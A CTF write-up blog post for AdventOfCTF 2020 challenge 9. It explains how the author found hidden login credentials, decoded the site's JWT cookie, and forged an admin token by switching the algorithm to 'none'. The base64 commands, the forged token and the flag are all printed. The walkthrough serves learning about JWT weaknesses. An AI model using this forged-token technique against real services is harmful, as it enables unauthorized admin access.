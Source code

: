 +++
author = "Maik de Kruif"
title = "JWT"
subtitle = "Challenge 9 - AdventOfCTF"
date = 2020-12-11T21:24:52+01:00
description = "A writeup for challenge 9 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/973ded4b2381c28af6c24d3d670303c6.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 900

## Description

Can you find a way to get into the Naughty List Management System as an admin?

Visit <https://09.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the website, we're greeted with a login screen. When we enter random credentials, we're greeted with some text: "Hey **user** your **password** is incorrect.".

This took me quite some time to find out, but it's actually fairly obvious. I started by taking a look at the cookies, but there were none. Then I tried some common URLs, but nothing (except `/admin`). Then I took another look at the error message; some bold text... The username is `user` and the password is `incorrect`.

When entering these credentials, we get redirected to `/admin` with a message: "The naughty list is currently empty....". This time, however, we also got a cookie.

```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NzE3ODU3fQ.rre-8SBgllKlu7KpJFXuO-SEN3s-9IPRSJ7hmclXpNs
```

### JWT

This looks like a JWT. We can confirm this by decoding the text before the first period (`.`):

```bash
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
```

```json
{ "typ": "JWT", "alg": "HS256" }
```

It is a JWT that uses the HMAC-SHA256 (`HS256`) algorithm. Using a [JSON Web Token (JWT)](https://en.wikipedia.org/wiki/JSON_Web_Token) is a compact, URL-safe, way of representing claims between a web server and a client. Let's decode the second part as well.

```bash
echo -n "eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NzE3ODU3fQ" | base64 -d
```

```json
{
  "auth": 28961,
  "text": "I do love a good puzzle.",
  "role": "user",
  "iat": 1607717857
}
```

We don't have to decode the last part as it is a secret that consists of non-printable characters.

The role in the JWT probably has to be changed to `"admin"` so let's try to do that.

#### Modifying a JWT

To modify a JWT, we would have to know the secret that was used to create it. If only there were some [vulnerabilities](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) 😀.

In a JWT you can use `none` as the algorithm. It is intended to be used for situations where the integrity of the token has already been verified. Luckily for us, some libraries treat tokens signed with the `none` algorithm as a valid token with a verified signature. This means anyone can create their own "signed" tokens with whatever payload they want, allowing arbitrary account access on some systems.

To create such a JWT, we just reverse the process. Firstly, we create the first part of the token.

```bash
echo -n '{"typ":"JWT","alg":"none"}' | base64
> eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
```

Then the middle part:

```bash
echo -n '{"auth":28961,"text":"I do love a good puzzle.","role":"admin","iat":1607717857}' | base64
> eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzcxNzg1N30=
```

And finally, the secret. We can leave this empty because we use the `none` algorithm.

Putting all of this together and removing the padding (`=`), we get `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzcxNzg1N30.`

## Solution

When setting the cookie to this value and reloading the page, we get the flag: `NOVI{Jw7_f@ilure_in_n0ne}`.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#9-10).
